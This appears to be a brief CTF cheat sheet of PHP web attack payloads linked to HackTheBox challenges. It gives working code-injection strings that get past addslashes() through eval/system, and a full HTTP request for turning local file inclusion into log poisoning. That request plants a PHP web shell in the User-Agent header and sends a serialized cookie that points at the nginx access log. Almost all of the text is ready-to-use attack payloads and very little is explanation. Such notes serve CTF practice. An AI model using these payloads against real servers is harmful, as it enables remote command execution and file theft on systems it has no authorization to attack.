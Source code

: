 # addslashes()
This function escapes single & double quotes.
```php
# Assuming that the variable is passed to eval
${system($_GET[1])}&1=whoami;
# If it's not passed to eval
${eval($_GET[1])}&1=system($_GET[2]);&2=whoami;
```
- Challenge: https://app.hackthebox.com/challenges/lovetok
> **References:** 
> https://www.programmersought.com/article/30723400042/

# include() 
Only generates a warning, i.e., E_WARNING, and continue the execution of the script.

**Case**:  From LFI to log poisoning
- Burpsuite request example:
```txt
# Cookie Serialization exploit
# O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}

GET /?c=cat+/flag_qlvM8 HTTP/1.1
Host: 178.128.163.152:30522
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```
- Challenge: https://app.hackthebox.com/challenges/224

> **References:**
> https://www.hackingarticles.in/apache-log-poisoning-through-lfi/
